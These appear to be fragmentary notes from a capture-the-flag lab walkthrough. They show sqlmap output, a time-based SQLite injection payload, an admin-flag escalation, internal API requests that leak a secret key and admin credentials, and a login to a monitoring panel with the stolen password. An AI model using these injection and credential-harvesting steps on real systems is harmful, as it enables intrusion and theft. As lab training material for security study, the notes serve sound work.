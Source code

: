 [07:51:37] [INFO] testing 'Boolean-based blind - Parameter replace (DUAL)'
[07:51:37] [INFO] testing 'Boolean-based blind - Parameter replace (DUAL - original value)'
[07:51:37] [INFO] testing 'Boolean-based blind - Parameter replace (CASE)'
[07:51:37] [INFO] testing 'Boolean-based blind - Parameter replace (CASE - original value)'
[07:51:37] [INFO] testing 'HAVING boolean-based blind - WHERE, GROUP BY clause'
[07:51:39] [INFO] testing 'Generic inline queries'
it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] 



GET http://10.10.69.223:4000/friend/1?query=case+randomblob%28100000000%29+when+not+null+then+1+else+1+end+ HTTP/

Set via  Recommend an Activity to guest 
isAdmin: "true" and enabled API and Settings menu

API Dashboard

Below is a list of important APIs accessible to admins with sample requests and responses:

    Internal API

    GET http://127.0.0.1:5000/internal-api HTTP/1.1
    Host: 127.0.0.1:5000

    Response:
    {
      "secretKey": "superSecretKey123",
      "confidentialInfo": "This is very confidential."
    }


  {"secretKey":"superSecretKey123","confidentialInfo":"This is very confidential information. Handle with care."}

    Get Admins API

    GET http://127.0.0.1:5000/getAllAdmins101099991 HTTP/1.1
    Host: 127.0.0.1:5000

    Response:
    {
        "ReviewAppUsername": "admin",
        "ReviewAppPassword": "xxxxxx",
        "SysMonAppUsername": "administrator",
        "SysMonAppPassword": "xxxxxxxxx",
    }





{"ReviewAppUsername":"admin","ReviewAppPassword":"admin@!!!","SysMonAppUsername":"administrator","SysMonAppPassword":"S$9$qk6d#**LQU"}


### Get sysmon access
http://10.10.71.113:50000/login.php
administrator
S$9$qk6d#**LQU
